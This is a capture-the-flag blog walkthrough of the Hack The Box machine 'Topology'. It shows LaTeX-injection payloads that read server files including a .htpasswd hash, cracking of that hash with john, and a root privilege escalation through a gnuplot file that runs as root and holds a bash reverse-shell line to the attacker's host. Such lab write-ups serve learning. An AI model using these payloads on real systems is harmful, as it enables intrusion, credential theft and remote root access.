 ```yaml
---
layout: post
title: "HTB: Topology"
author: Andrew Cherney
date: 2023-11-05 15:25:18
tags: htb easy-box LaTeX john gnuplot
icon: "assets/icons/topology.png"
post_description: "If obscure math programming languages and plotting tools are up your wheelhouse then this box will be a breeze. An interesting look at the vulnerabilities that lie waiting within academia though either outdated or improperly used tools."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $nmap -A -sC 10.10.11.217
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-23 17:06 CDT
Nmap scan report for 10.10.11.217
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
echo "10.10.11.217 topology.htb" >> /etc/hosts
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/topology/Topology_front_page" alt="front_page" ext="png" trunc=600 %}

We're greeted with an academic group's accomplishments and projects. Skimming the page we come across one link to a subdomain of ```latex.topology.htb``` so we'll throw that into my hosts file too.

While the topic of subdomains is here why don't we toss a gobuster scan to find other subdomains.

```bash
gobuster vhost -u http://topology.htb -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

We find `dev` and `stats` subdomains as well. 

![Stats page](/img/topology/Topology_stats_page.png)

Network stats available for us to look at, nothing special here. On the `dev` subdomain we are prompted for a username and password. This could indicate there is a `.htpasswd` and `.htaccess` within the directory this is hosted at. We'll keep that in mind if we get LFI. 

Lastly let's see what `latex` has to offer. It looks to be a text to image converter for LaTeX to simplify embedding equations in papers and websites. As of note this page is `equation.php` and if I traverse to the root directory I can see a load of test images and `.tex` files.

![LaTeX equation page](/img/topology/Topology_latex_equation_gener.png)

![LaTeX root directory](/img/topology/Topology_root_direcroty_latex.png)

A small nugget of info the `headers.tex` file mentions vdaisley which could be the user we compromise. 

<h1>User as vdaisley</h1>

<h2>LaTeX Injection</h2>

I dug around for some info surrounding LaTeX and came across [this injection payload list from PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection). I try all of them till I notice that two *work*:

```tex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

![etc passwd test](/img/topology/Topology_etcpasswd_test.png)

```tex
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
```

The first payload only loads one line whereas the second doesn't show anything but doesn't error out as if the syntax is incorrect. It is of note there is some filter here to prevent users from injecting commands and these two either aren't on the list or bypass it somehow. 

So some time later in searching for LaTeX related exploits I find [this stackexchange talk about inline ](https://tex.stackexchange.com/questions/503/why-is-preferable-to) which is a talk about surrounding characters and which to use. There are three mentioned, `\[`, `$$`, and `$`. Since my second payload was the one that errored out I decided to try these around it for any change in behavior. 

```
$\lstinputlisting{/etc/passwd}$
```

And that ladies and gentlemen displays the entire contents of a file in image form.
The reason this seems to work is those symbols are known as inline math delimiters and force the resulting "equation" to be rendered inline and added to the result rather than being the result. Could be wrong on that. It is of note in [this LaTeX expression guide](https://www.overleaf.com/learn/latex/Mathematical_expressions) there are two other inline delimiters of `\(...\)` and `\begin{math}...\end{math}`, the first errors out and the second is caught as an illegal command. 

Now we loop back to the beginning where we remember `dev` was gated by a password and username. 


```tex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

<h2>john</h2>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $john hash --wordlist=/opt/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)
1g 0:00:00:06 DONE (2023-07-23 19:36) 0.1655g/s 164852p/s 164852c/s 164852C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $ssh vdaisley@topology.htb
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ cat user.txt 
4a842033fc2079------------------
```

<h1>Root</h1>

<h2>pspy64</h2>

In my normal enumeration of SUIDs, capabilities, and pspy I come across a looping set of scripts.

```
2023/07/23 21:04:05 CMD: UID=0     PID=1      | /sbin/init 
2023/07/23 21:05:01 CMD: UID=0     PID=2501   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2500   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2503   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2502   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2504   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2507   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2506   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2505   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2508   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2514   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/07/23 21:05:01 CMD: UID=0     PID=2513   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/07/23 21:05:01 CMD: UID=0     PID=2512   | sed s/,//g 
2023/07/23 21:05:01 CMD: UID=0     PID=2511   | cut -d  -f 3 
2023/07/23 21:05:01 CMD: UID=0     PID=2510   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2509   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2517   | gnuplot /opt/gnuplot/networkplot.plt 
```

<h2>gnuplot priv esc</h2>

Initially it seemed worthwhile to try and trick root into running that non-existent CRON file but I didn't have access to change sbin. The other part gnuplot though I found [this priv esc method using a malicious .plt file](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/). 

```bash
vdaisley@topology:~$ touch /opt/gnuplot/test.plt
vdaisley@topology:~$ nano /opt/gnuplot/test.plt
vdaisley@topology:~$ cat /opt/gnuplot/test.plt
system "whoami"

# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/10.10.14.10/7777 0>&1'"
vdaisley@topology:~$ 
```

We're in luck I can add files to opt despite being unable to view that directory or change existing files. Now I can set up netcat and wait.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.217] 53262
bash: cannot set terminal process group (2527): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# cat /root/root.txt
cat /root/root.txt
78114b488eb8--------------------
```

